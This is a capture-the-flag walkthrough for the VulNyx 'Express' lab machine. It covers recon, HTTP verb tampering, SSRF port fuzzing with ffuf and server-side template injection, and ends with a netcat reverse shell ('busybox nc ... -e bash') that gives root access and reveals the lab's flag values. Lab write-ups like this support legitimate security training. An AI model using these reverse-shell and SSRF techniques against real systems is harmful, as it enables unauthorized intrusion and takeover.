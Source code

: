 # CTF Penetration Testing

## Platform: VulNyx

### Machine: [Express](https://vulnyx.com/#express)

- Machine type: <img src="https://hackmyvm.eu/img/linux.png" alt="Linux" width="17"/> Linux
- Machine difficulty: 🟨 Medium

#### Skills Learned

- **Crawling**
- **HTTP Verb Tampering**
- **Server-Side Request Forgery (SSRF)**
- **Server-Side Template Injection (SSTI)**

#### Machine Writeup

```
┌──(nabla㉿kali)-[~]
└─$ ifconfig eth0
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.247.128  netmask 255.255.255.0  broadcast 192.168.247.255

[SNIP]
```

```
┌──(nabla㉿kali)-[~]
└─$ fping 192.168.247.131

192.168.247.131 is alive

┌──(nabla㉿kali)-[~]
└─$ sudo nmap -Pn -sS -p- 192.168.247.131 -T5 

[SNIP]

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

```
┌──(nabla㉿kali)-[~]
└─$ echo -e '192.168.247.131\texpress.nyx' | sudo tee -a /etc/hosts

192.168.247.131 express.nyx

┌──(nabla㉿kali)-[~]
└─$ whatweb http://192.168.247.131

http://192.168.247.131 [200 OK] Apache[2.4.62], Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.62 (Debian)], IP[192.168.247.131], Title[Apache2 Debian Default Page: It works]

┌──(nabla㉿kali)-[~]
└─$ whatweb http://express.nyx

http://express.nyx [200 OK] Apache[2.4.62], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.62 (Debian)], IP[192.168.247.131], Script, Title[Express.nyx]
```

![Firefox - Homepage (http://192.168.247.131/)](./assets/screenshots/vulnyx_express_firefox_homepage_1.png)

![Firefox - Homepage (http://express.nyx/)](./assets/screenshots/vulnyx_express_firefox_homepage_2.png)

**Crawling**

![Firefox - JavaScript API 1](./assets/screenshots/vulnyx_express_firefox_javascript_api_1.png)

![Firefox - JavaScript API 2](./assets/screenshots/vulnyx_express_firefox_javascript_api_2.png)

```javascript
function getMusicList() {
  fetch('/api/music/list').then(response => response.json()).then(data => {
    console.log('Music genre list:', data);
  }).catch(
    error => {
      console.error('Error fetching the music list:', error);
    }
  );
}
function getMusicSongs() {
  fetch('/api/music/songs').then(response => response.json()).then(data => {
    console.log('List of songs:', data);
  }).catch(
    error => {
      console.error('Error fetching the list of songs:', error);
    }
  );
}
function getUsersWithKey() {
  fetch(`/api/users?key=${ secretKey }`).then(response => response.json()).then(data => {
    console.log('User list (with key):', data);
  }).catch(
    error => {
      console.error('Error fetching the user list:', error);
    }
  );
}
function checkUrlAvailability() {
  const data = {
    id: 1,
    url: 'http://example.com',
    token: '1234-1234-1234'
  };
  fetch(
    '/api/admin/availability',
    {
      method: 'POST',
      headers: {
        'Content-Type': 'application/json'
      },
      body: JSON.stringify(data)
    }
  ).then(response => response.json()).then(data => {
    console.log('URL status:', data);
  }).catch(
    error => {
      console.error('Error checking the URL availability:', error);
    }
  );
}
```

![Burp Suite - API (GET /api/users)](./assets/screenshots/vulnyx_express_burpsuite_api_1.png)

![Burp Suite - API (GET /api/users?key=test)](./assets/screenshots/vulnyx_express_burpsuite_api_2.png)

**HTTP Verb Tampering**

![Burp Suite - API (POST /api/users?key=test)](./assets/screenshots/vulnyx_express_burpsuite_api_3.png)

**Server-Side Request Forgery (SSRF)**

![Burp Suite - API (POST /api/admin/availability) Test](./assets/screenshots/vulnyx_express_burpsuite_api_4.png)

![Burp Suite - API (POST /api/admin/availability) SSRF 1](./assets/screenshots/vulnyx_express_burpsuite_api_5.png)

```
┌──(nabla㉿kali)-[~]
└─$ seq 1 10000 > ports.txt

┌──(nabla㉿kali)-[~]
└─$ ffuf -w ./ports.txt -u http://express.nyx/api/admin/availability -X POST -H "Content-Type: application/json" -d '{"id":18, "url":"http://127.0.0.1:FUZZ", "token":"4493-3179-0912-0597"}' -fw 36 

[SNIP]

80                      [Status: 200, Size: 11240, Words: 3439, Lines: 7, Duration: 4750ms]
22                      [Status: 200, Size: 176, Words: 16, Lines: 7, Duration: 5038ms]
5000                    [Status: 200, Size: 301, Words: 39, Lines: 7, Duration: 241ms]
9000                    [Status: 200, Size: 280, Words: 50, Lines: 7, Duration: 175ms]
```

![Burp Suite - API (POST /api/admin/availability) SSRF 2](./assets/screenshots/vulnyx_express_burpsuite_api_6.png)

```html
<form method="get" action="/username">
	<input type="text" name="name" placeholder="Enter your name">
	<input type="submit" value="Greet">
</form>
```

![Burp Suite - API (POST /api/admin/availability) SSRF 3](./assets/screenshots/vulnyx_express_burpsuite_api_7.png)

**Server-Side Template Injection (SSTI)**

![Burp Suite - API (POST /api/admin/availability) SSTI 1](./assets/screenshots/vulnyx_express_burpsuite_api_8.png)

![Burp Suite - API (POST /api/admin/availability) SSTI 2](./assets/screenshots/vulnyx_express_burpsuite_api_9.png)

![Burp Suite - API (POST /api/admin/availability) SSTI 3](./assets/screenshots/vulnyx_express_burpsuite_api_10.png)

```
┌──(nabla㉿kali)-[~]
└─$ nc -lvnp 1337
listening on [any] 1337 ...

[CONTINUE]
```

```shell
busybox nc 192.168.247.128 1337 -e bash
```

![Burp Suite - API (POST /api/admin/availability) SSTI 4](./assets/screenshots/vulnyx_express_burpsuite_api_11.png)

```
[CONTINUE]

connect to [192.168.247.128] from (UNKNOWN) [192.168.247.131] 53990
```

```
whoami
root

ls -la /root
total 36
drwx------  5 root root 4096 Oct 22  2024 .
drwxr-xr-x 18 root root 4096 Feb 12  2024 ..
lrwxrwxrwx  1 root root    9 Oct 22  2024 .bash_history -> /dev/null
-rw-r--r--  1 root root  571 Apr 10  2021 .bashrc
drwxr-xr-x  3 root root 4096 Oct 21  2024 .cache
drwxr-xr-x  3 root root 4096 Feb 12  2024 .local
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-r--------  1 root root   33 Oct 18  2024 r00t.txt
-rw-r--r--  1 root root   66 Oct 22  2024 .selected_editor
drwx------  2 root root 4096 Feb 12  2024 .ssh

cat /root/r00t.txt
17a0c0830e9c71623d17b30f5a2fc40a 🚩

ls -la /home
total 16
drwxr-xr-x  4 root    root    4096 Oct 18  2024 .
drwxr-xr-x 18 root    root    4096 Feb 12  2024 ..
drwxr-xr-x  2 jesss   jesss   4096 Oct 22  2024 jesss
drwxr-xr-x  2 xerosec xerosec 4096 Oct 22  2024 xerosec

ls -la /home/jesss
total 24
drwxr-xr-x 2 jesss jesss 4096 Oct 22  2024 .
drwxr-xr-x 4 root  root  4096 Oct 18  2024 ..
lrwxrwxrwx 1 root  root     9 Oct 22  2024 .bash_history -> /dev/null
-rw-r--r-- 1 jesss jesss  220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 jesss jesss 3526 Apr 23  2023 .bashrc
-rw-r--r-- 1 jesss jesss  807 Apr 23  2023 .profile
-r-------- 1 root  root    33 Oct 18  2024 user.txt

cat /home/jesss/user.txt
969dadb2e8f4aadb8291a496e6c75b35 🚩
```

<img src="https://hackmyvm.eu/img/correctflag.png" alt="Machine Hacked!" width="150"/>

---
---
